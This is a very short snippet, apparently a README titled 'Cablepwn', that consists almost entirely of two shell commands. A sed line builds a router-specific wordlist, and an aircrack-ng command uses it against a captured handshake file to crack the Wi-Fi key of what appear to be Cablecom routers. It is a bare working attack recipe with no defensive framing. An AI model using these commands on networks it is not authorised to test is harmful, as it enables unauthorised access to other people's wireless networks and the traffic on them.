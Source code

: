 # Cablepwn

sed 's/XXXX/2FC8/g' CablecomXXXX.lst > Cablecom2FC8.lst<br>
aircrack-ng Cablecom2FC8-01.cap -w Cablecom2FC8.lst

